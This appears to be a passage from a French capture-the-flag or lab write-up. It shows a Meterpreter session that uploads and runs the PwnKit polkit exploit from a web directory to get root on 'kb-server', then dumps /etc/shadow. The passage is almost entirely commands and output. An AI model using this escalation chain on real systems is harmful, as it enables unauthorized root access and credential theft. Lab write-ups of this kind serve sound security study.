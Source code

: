 ```
```

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Pwnkit**

Upload de l’exploit & ajout des droits pour l’exécution

```
(Meterpreter 1)(/var/www/html/sitemagic/files/images) > upload /home/parrot/Desktop/PwnKit
[*] Uploading  : /home/parrot/Desktop/PwnKit -> PwnKit
[*] Uploaded -1.00 B of 17.62 KiB (-0.01%): /home/parrot/Desktop/PwnKit -> PwnKit
[*] Completed  : /home/parrot/Desktop/PwnKit -> PwnKit
(Meterpreter 1)(/var/www/html/sitemagic/files/images) > shell
Process 1382 created.
Channel 2 created.
bash -i
www-data@kb-server:/var/www/html/sitemagic/files/images$ chmod +rwx PwnKit

```

&nbsp;

Exécution de l’exploit

```
www-data@kb-server:/var/www/html/sitemagic/files/images$ ./PwnKit                                                                    
./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
bash -i
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
root@kb-server:/var/www/html/sitemagic/files/images# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

&nbsp;

Dump des `hash` utilisateurs

```
root@kb-server:/var/www/html/sitemagic/files/images# cat /etc/shadow
cat /etc/shadow
root:*:18480:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
```